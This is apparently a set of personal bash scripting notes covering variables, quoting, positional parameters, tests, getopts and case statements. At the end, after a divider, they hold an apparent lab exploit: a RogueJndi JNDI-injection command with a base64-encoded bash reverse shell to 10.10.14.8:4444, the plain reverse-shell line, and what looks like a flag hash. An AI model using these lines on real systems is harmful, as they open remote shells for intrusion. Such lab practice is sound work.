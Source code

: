 `type -a 'item'` - find out if its a shell builtin or user command

	if user command use man
 
	if shell builtin use help
 
Use command to assign to variable = `VARIABLE=$(cmd)`  

	Can also be `VARIABLE=`\``cmd`\`
 
Assign value using variable  

`WORD='script'`

variable = `${WORD}` or `$WORD`  

	When you want to display the variable's value you use `$Variable`  
 
	Single quotes prevent expansion of variables 
 
	Double quotes provides the interpretation of the variable 
 
		`TEST='1'`
  
		`echo "$TEST"` provides 1
  
		`echo '$TEST'` provides $test
  
	If we want to append text to the end of the variable you need to use `{}`
 
	`echo "${WORD}ing"` provides Scripting
 
	Combining variables also require that you use the `{`
 
Changing the value stored in a variable (Reassignment)

	`ENDING='ed'`

	`echo "$ENDING"` ed
 
	`ENDING='ing'`
 
	`echo "$ENDING"` ing
 
parameter - variable being used inside the shell script

`;` is command separator or enter key

arguement - data passed into the shel lscritp

	arguement used in command line becoems the value stored in a parameter
 
`${0}` - first positional parameter - what is typed in the cmd line to execute the script - returns output of the command

`${1}` - value fo the first arguement passed to the script on the cmd

expression = `[[ expression ]]

	Display if user is root or not
```
if [[ "${UID}" -eq 0 ]]
		then
			echo 'You are root'
		else 
			echo 'You are not root'
		fi 
```
-eq - equal to 

-lt - less than

le - less than or equal to

gt - greater than

ge - greater than or equal to


`${?}` exit status variable of the most recently executed command

read input `read ` `-p` -passes the input onto value 

	ex. `read -p 'Entire input: ' variable_name`
 
useradd `-c` -comment for user `-m`(make home directory) `"username"`

shuf - shuffles entire lines

fold - wrap each input line to match space 

which - finds which path x command will execute from

	`which head` - finds location of head cmd
 
hash - `hash` - changes shell remembered locations

basename - strips out directory and suffix from filenames - aka display only filename - doesnt do smart checking

dirname - strips last component from file name - aka display only directory  - doesnt do smart checking

!`letter` - goes back to last command that started with X letter

`${@}` - puts each input as seperate words

`${*}` - puts each input as one word

`${#}` - represents the number of arguments

`sleep -s m h d` - delays command for -seconds -minutes -hours -days

`shift` - each time the cmd runs, ${#} goes down one

`readonly [variable]=[variable assignment]` - read only variable 

`getopts` - used matching pattern to get options from input

	`getopts input options OPTION`
 
	`while GET`
 
`bash pgrep -x` - check processes

`
### Case
case `[input]` in
`value`) `command` ;;
;; - block ender
esac - case finish

When trying to do math in bash format is `$(( NUM + NUM ))`

num can be variables as well but dont need ${} 


________________________________________________________________________
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.8"

echo 'bash -c bash -i >&/dev/tcp/10.10.14.8/4444 0>&1' |
base64

6ced1a6a89e666c0620cdb10262ba127

